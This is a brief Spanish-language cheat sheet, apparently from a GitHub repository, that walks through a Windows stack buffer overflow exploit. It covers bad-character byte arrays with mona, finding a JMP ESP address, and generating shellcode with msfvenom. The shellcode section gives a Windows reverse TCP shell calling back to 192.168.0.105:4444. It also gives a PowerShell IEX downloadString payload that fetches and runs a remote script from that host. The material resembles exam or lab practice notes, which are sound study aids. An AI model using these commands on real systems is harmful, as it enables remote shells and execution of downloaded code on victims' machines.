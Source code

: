 
## BYTEARRAY
```pip install badchars```
```badchars -f python```

## MONA
#### Configurar carpeta de trabajo
```!mona config -set workingfolder C:\Users\win7bits\Desktop\%p```
#### Generar badchars
```!mona bytearray -b "\x00"```   
```!mona bytearray -b "\x00\x07"```
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
```!mona compare -f C:\mona\appname\bytearray.bin -a <address>```
#### Encontrar el punto de salto
```!mona jmp -r esp -cpb \x07\x2e\xa0\x00"```   
```!mona jmp -r esp -cpb "\x00"```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)
